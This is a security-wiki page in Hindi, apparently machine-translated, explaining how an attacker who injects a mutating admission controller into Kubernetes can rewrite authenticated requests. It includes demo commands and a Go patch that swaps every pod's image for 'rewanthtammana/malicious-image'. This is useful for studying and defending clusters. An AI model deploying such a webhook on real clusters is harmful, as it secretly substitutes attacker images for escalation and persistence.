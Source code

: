 ### Malicious Admission Controller

An admission controller **Kubernetes API सर्वर** के लिए अनुरोधों को **इंटरसेप्ट करता है** पहले वस्तु के स्थायीकरण से, लेकिन **अनुरोध को प्रमाणित** **और अधिकृत** करने के बाद।

यदि एक हमलावर किसी तरह **Mutationg Admission Controller** को **इंजेक्ट** करने में सफल हो जाता है, तो वह **पहले से प्रमाणित अनुरोधों को संशोधित** करने में सक्षम होगा। संभावित रूप से प्रिवेस्क करने में सक्षम होना, और अधिकतर क्लस्टर में स्थायी रहना।

**Example from** [**https://blog.rewanthtammana.com/creating-malicious-admission-controllers**](https://blog.rewanthtammana.com/creating-malicious-admission-controllers):
```bash
git clone https://github.com/rewanthtammana/malicious-admission-controller-webhook-demo
cd malicious-admission-controller-webhook-demo
./deploy.sh
kubectl get po -n webhook-demo -w
```
स्थिति की जांच करें कि क्या यह तैयार है:
```bash
kubectl get mutatingwebhookconfigurations
kubectl get deploy,svc -n webhook-demo
```
![mutating-webhook-status-check.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433436353/yHUvUWugR.png?auto=compress,format\&format=webp)

फिर एक नया पॉड तैनात करें:
```bash
kubectl run nginx --image nginx
kubectl get po -w
```
जब आप `ErrImagePull` त्रुटि देख सकते हैं, तो छवि नाम की जांच करें किसी एक प्रश्न के साथ:
```bash
kubectl get po nginx -o=jsonpath='{.spec.containers[].image}{"\n"}'
kubectl describe po nginx | grep "Image: "
```
![malicious-admission-controller.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433512073/leFXtgSzm.png?auto=compress,format\&format=webp)

जैसा कि आप ऊपर की छवि में देख सकते हैं, हमने `nginx` इमेज चलाने की कोशिश की लेकिन अंतिम निष्पादित इमेज `rewanthtammana/malicious-image` है। क्या हुआ!!?

#### Technicalities <a href="#heading-technicalities" id="heading-technicalities"></a>

`./deploy.sh` स्क्रिप्ट एक म्यूटेटिंग वेबहुक एडमिशन कंट्रोलर स्थापित करती है, जो इसके कॉन्फ़िगरेशन लाइनों में निर्दिष्ट के अनुसार Kubernetes API के अनुरोधों को संशोधित करती है, जो देखे गए परिणामों को प्रभावित करती है:
```
patches = append(patches, patchOperation{
Op:    "replace",
Path:  "/spec/containers/0/image",
Value: "rewanthtammana/malicious-image",
})
```
The above snippet replaces the first container image in every pod with `rewanthtammana/malicious-image`.
